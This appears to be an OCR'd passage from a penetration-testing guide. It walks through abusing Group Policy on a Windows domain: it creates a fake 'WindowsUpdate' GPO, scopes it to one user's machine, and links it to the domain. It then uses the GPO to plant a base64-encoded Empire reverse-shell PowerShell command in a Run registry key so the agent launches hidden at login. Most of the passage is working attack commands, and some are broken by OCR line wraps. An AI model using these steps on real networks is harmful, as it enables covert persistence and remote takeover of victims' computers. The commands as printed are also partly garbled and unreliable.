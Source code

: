 On any windows domain joined machine, execute the followings: First, we activate and import the Group Policy modules in the PowerShell session available at 10.10.20.118:

```
Ps> Add-WindowsFeature GPMC
Ps> import-module group-policy
```

Then we create a fake GPO called Windows update (We target the domain controller FRSV210):

```
PS> New-GPo -name WindowsUpdate -domain
SPH.corp -Server FRSV210.sph.corp
```

We only want to target Juliette’s account on the computer FRPC066, so we restrict the scope of this GPO:

```powershell
PS> Set-GPPermissions -Name "WindowsUpdate" -
Replace -PermissionLevel GpoApply -TargetName
"juliette" -TargetType user

PS> Set-GPPermissions -Name "WindowsUpdate" -
Replace -PermissionLevel GpoApply -TargetName
"FRPC066" -TargetType computer

PS> Set-GPPermissions -Name "WindowsUpdate" -
PermissionLevel None -TargetName "Authenticated
Users" -TargetType Group
```

Finally, we link it to the SPH domain to activate it:

```powershell
PS> New-GPLink -Name WindowsUpdate -Domain
sph.corp -Target "dc=sph,dc=corp" -order 1 -enforced
yes
```

We go ack to the Empire framework on the Front Gun server and generate a new reverse shell agent, base64 encoded this time in order to fit nicely in a registry key:

```
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc
WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBlAFIAVgBpAGMARQBQAG8AaQBuAHQATQBhAG4AQQBHAGUAUgBdADoAOgBFAHgAcABlAGMAdAAxADAAMABDAE8AbgBUAEk
```

We then instruct the GPO we created to set up a ‘Run’ registry key the next time Juliette’s computer polls new settings.

This registry key will execute the PowerShell agent at Juliette’s next login:

```powershell
PS> Set-GPRegistryValue -Name "WindowsUpdate" -key
"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\-ValueName MSstart -Type String -value "powershell.exe
-NoP -sta -NonI -Enc WwBTAHk[…]"
```
